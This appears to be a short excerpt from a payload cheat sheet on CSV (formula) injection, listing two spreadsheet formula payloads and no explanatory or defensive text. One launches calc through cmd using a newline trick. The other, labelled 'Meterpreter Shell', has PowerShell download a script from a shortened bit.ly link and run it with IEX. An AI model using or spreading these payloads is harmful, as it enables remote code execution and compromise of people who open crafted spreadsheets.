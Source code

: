 ## CSV Injection

**Newline character**

```
%0A-3+3+cmd|' /C calc'!D2
```

**Meterpreter Shell**

```
=cmd|'/C powershell IEX(wget bit.ly/1X146m3)'!A0
```
